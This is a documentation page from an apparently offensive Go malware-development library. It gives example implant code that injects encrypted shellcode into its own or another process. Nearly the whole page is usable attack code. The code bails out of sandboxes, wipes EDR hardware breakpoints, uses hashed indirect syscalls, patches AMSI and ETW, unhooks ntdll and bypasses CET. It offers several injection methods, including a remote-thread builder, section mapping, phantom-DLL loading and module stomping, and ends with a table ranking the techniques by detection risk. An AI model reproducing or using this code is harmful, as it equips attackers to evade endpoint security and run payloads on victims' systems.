

# Example: Evasive Remote Injection

[← Back to README](../../README.md)

Inject shellcode into a target process from a hardened context: the
implant clears EDR hardware breakpoints, applies the canonical evasion
preset through indirect-asm syscalls, opts out of CET when possible
(falling back to ENDBR64-prefixing the shellcode otherwise), then
delivers via `inject.Build(...)` with `MethodCallbackEnumWindows`
fall-through to `MethodSectionMap` for the loud cases.

What changed since the v0.16-era version of this example:

- **`evasion/preset.Stealth()` + `cet.CETOptOut()`** — three hand-listed
  techniques became one slice. CETOptOut relaxes
  `ProcessUserShadowStackPolicy` when allowed, otherwise the next layer
  prefixes the shellcode with ENDBR64.
- **`cet.Wrap(sc)` belt-and-suspenders** — even when `cet.Disable`
  succeeds, we wrap. Wrap is idempotent and a no-op when the marker
  is already present, so it costs nothing on bare metal and saves the
  process when CET enforcement turns out to be stricter than we
  expected (Win11 24H2+ Hyper-V hosts in particular).
- **`inject.ExecuteCallbackBytes` + `inject.MethodEnforcesCET`** — the
  modern callback path auto-Wraps when the chosen
  `inject.CallbackMethod` enforces CET (Wait callbacks +
  NtNotifyChangeDirectory's APC dispatcher are the strict ones). One
  call instead of manual alloc + protect + execute.
- **`recon/antivm.Hypervisor()` sandbox-bail** — single CPUID + RDTSC
  probe. Cannot be evaded by registry / DMI / file rewrites; the
  hypervisor itself sets the bit.
- **`MethodIndirectAsm` + custom `HashFunc`** — same NT-call seam as
  `basic-implant.md`. No writable stub page, no per-call
  `VirtualProtect`, non-ROR13 module-name hash to defeat static
  fingerprints.
- **`evasion/stealthopen.MultiStealth`** — drop-in `*Standard`
  replacement for any consumer that opens files. Per-path lazy
  ObjectID capture + cache; the path-based file hook fires once
  per unique file, then never. The bundled `preset.Stealth()`
  doesn't carry an opener seam yet (the `Technique` interface
  passes only the `Caller`), so callers wanting MultiStealth
  here must bypass the preset and wire `unhook.FullUnhook(caller,
  &MultiStealth{})` directly — see the "MultiStealth-aware
  variant" below.



## Code — self-process callback execution (zero new thread)

```go
package main

import (
    "os"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/cet"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/hash"
    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/recon/antivm"
    "github.com/oioio-space/maldev/recon/hwbp"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

// AES-GCM ciphertext + key. Replace with your build pipeline's output.
var (
    ciphertext = []byte{ /* … */ }
    key        = []byte{ /* 32-byte AES-256 key */ }
)

func main() {
    // 1. Bail on any VM/sandbox before paying any other cost.
    if antivm.Hypervisor().LikelyVM {
        os.Exit(0)
    }

    // 2. Wipe EDR hardware breakpoints. CrowdStrike / S1 set HWBPs
    //    on Nt* prologues that survive the inline-unhook pass.
    _, _ = hwbp.ClearAll()

    // 3. Indirect-asm syscalls + non-ROR13 module-name hash. The
    //    custom hash defeats static fingerprints on the well-known
    //    ROR13 ntdll constant 0x411677B7.
    caller := wsyscall.New(
        wsyscall.MethodIndirectAsm,
        wsyscall.NewHashGateWith(hash.FNV1a32),
    ).WithHashFunc(hash.FNV1a32)

    // 4. Apply Stealth + CET opt-out. The bundled preset doesn't
    //    accept a stealthopen.Opener (the Technique interface
    //    receives only a Caller); the unhook step inside reads
    //    ntdll.dll via the default *Standard opener. See the
    //    "MultiStealth-aware variant" below for the per-file
    //    Object-ID hook-bypass path.
    techniques := append(preset.Stealth(), preset.CETOptOut())
    if errs := evasion.ApplyAll(techniques, caller); len(errs) != 0 {
        os.Exit(1)
    }

    // 5. Decrypt with defer-wipe of the plaintext.
    err := crypto.UseDecrypted(
        func() ([]byte, error) {
            return crypto.DecryptAESGCM(key, ciphertext)
        },
        func(plaintext []byte) error {
            // 6. Belt-and-suspenders CET prefix. cet.Wrap is
            //    idempotent — no-op when the marker is already
            //    present, so it costs nothing on bare metal and
            //    saves us if Disable misjudged the host's policy.
            sc := cet.Wrap(plaintext)

            // 7. ExecuteCallbackBytes auto-Wraps internally for
            //    methods that enforce CET (RtlRegisterWait,
            //    NtNotifyChangeDirectory). EnumWindows runs on the
            //    calling thread and is CET-clean; we still pre-Wrap
            //    above so Wait/APC fall-throughs work without code
            //    changes.
            return inject.ExecuteCallbackBytes(sc, inject.CallbackEnumWindows)
        },
    )
    if err != nil {
        os.Exit(1)
    }
}
```

## MultiStealth-aware variant — explicit unhook with Object-ID open

The bundled `preset.Stealth()` invokes `unhook.Full().Apply(caller)`
internally, which routes through the default `*Standard` opener
(plain `os.Open` on `ntdll.dll`). When the operator wants the
path-based file hook to fire only once per unique file across the
implant's lifetime, drop the preset and wire MultiStealth into the
unhook calls directly:

```go
import (
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/cet"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/evasion/stealthopen"
    "github.com/oioio-space/maldev/evasion/unhook"
)

opener := &stealthopen.MultiStealth{} // reusable, zero-config

// AMSI + ETW patches don't read files; safe to apply through the
// preset path with no opener concern.
_ = amsi.PatchAll(caller)
_ = etw.PatchAll(caller)

// Unhook reads ntdll.dll repeatedly (one read per *Classic call,
// plus one read for FullUnhook). Wire MultiStealth so the path
// hook only fires for the FIRST read; every subsequent read of
// the same path routes through OpenByID and bypasses the hook.
if err := unhook.FullUnhook(caller, opener); err != nil { /* … */ }

// Optional: relax CET if the host policy allows.
_ = cet.Disable() // no-op on hosts without CET enforcement
```

Operators can keep the preset for the AMSI+ETW half and replace
just the unhook step:

```go
techniques := append([]evasion.Technique{},
    amsi.All(),       // == preset.Minimal()'s AMSI bit
    etw.All(),        // == preset.Minimal()'s ETW bit
    preset.CETOptOut(),
)
_ = evasion.ApplyAll(techniques, caller)
_ = unhook.FullUnhook(caller, opener) // separate so the opener flows through
```

## Alternative — cross-process delivery via Build + decorator chain

```go
// When the target is another process, the Build() fluent API
// composes method + syscall mode + middleware in one chain.
// CET concerns are out of scope here — the shellcode runs in the
// target's CET regime, decided by the target's manifest.
inj, err := inject.Build().
    Method(inject.MethodCreateRemoteThread).
    TargetPID(targetPID).                 // from process/enum.FindByName
    IndirectSyscalls().                   // matches the standalone caller above
    Use(inject.WithValidation).           // size + entropy preflight
    Use(inject.WithXORKey(0xA5)).         // XOR the in-flight shellcode
    WithFallback().                       // try sibling methods on err
    Create()
if err != nil { /* … */ }

if err := inj.Inject(shellcode); err != nil { /* … */ }
```

`MethodSectionMap` and friends aren't part of the builder's
fallback graph today — call them directly:

```go
// SectionMap: cross-process via NtCreateSection + NtMapViewOfSection.
// No WriteProcessMemory, no per-byte page touch.
_ = inject.SectionMapInject(targetPID, shellcode, caller)

// PhantomDLL: map a clean System32 DLL into the target, overwrite
// its .text. The Opener parameter routes the system DLL read
// through MultiStealth so the path-based file hook fires once.
_ = inject.PhantomDLLInject(targetPID, "amsi.dll", shellcode, opener)

// ModuleStomp: same idea, own-process. Returns the planted address;
// follow up with ExecuteCallbackBytes or a direct call.
addr, _ := inject.ModuleStomp("msftedit.dll", shellcode)
_ = addr
```

## Choosing the callback method

`inject.MethodEnforcesCET(method) bool` answers whether the chosen
`CallbackMethod` runs through a CET-enforced dispatcher. Use it to
gate Wrap / Disable decisions when the operator has runtime choice
of method:

```go
m := inject.CallbackRtlRegisterWait // or any other CallbackMethod
if inject.MethodEnforcesCET(m) && cet.Enforced() {
    sc = cet.Wrap(sc) // mandatory or process dies with 0xC000070A
}
_ = inject.ExecuteCallbackBytes(sc, m)
```

`ExecuteCallbackBytes` does the same check internally — the manual
form above is for callers that want to inspect the decision.

## Technique comparison

| Technique | WriteProcessMemory | New thread | File-backed | CET-sensitive | Detection |
|---|:-:|:-:|:-:|:-:|:-:|
| `MethodCreateRemoteThread` | yes | yes | no | dispatcher-dependent | high |
| `MethodSectionMap` | **no** | yes | no | dispatcher-dependent | medium |
| `MethodModuleStomp` | yes (own) | no (self) | **yes** | no | low |
| `CallbackEnumWindows` | no (self) | **no** | no | no | low |
| `CallbackRtlRegisterWait` | no (self) | yes (pool) | no | **yes** (Wait) | low |
| `CallbackNtNotifyChangeDirectory` | no (self) | yes (APC) | no | **yes** (APC) | low |
| `MethodThreadPool` | no (self) | **no** | no | dispatcher-dependent | low |
| `MethodPhantomDLL` | yes | yes | **yes** | no | medium |

CET-sensitive paths require either `cet.Disable()` to relax the
policy at start-up (process-global; one-way) OR `cet.Wrap()` to
prefix the shellcode with `F3 0F 1E FA` (per-payload; idempotent).
`ExecuteCallbackBytes` picks the right behaviour by default.

## See also

- [`docs/techniques/evasion/preset.md`](../techniques/evasion/preset.md) — the four bundled tiers (Minimal / Stealth / Hardened / Aggressive).
- [`docs/techniques/evasion/cet.md`](../techniques/evasion/cet.md) — Marker / Wrap / Disable / Enforced API.
- [`docs/techniques/injection/callback-execution.md`](../techniques/injection/callback-execution.md) — per-callback-method detection profile.
- [`docs/examples/basic-implant.md`](basic-implant.md) — same hardening, self-inject CreateThread variant.
- [`docs/examples/full-chain.md`](full-chain.md) — pipeline example: encrypt → masquerade → inject → preset → sleepmask → cleanup.
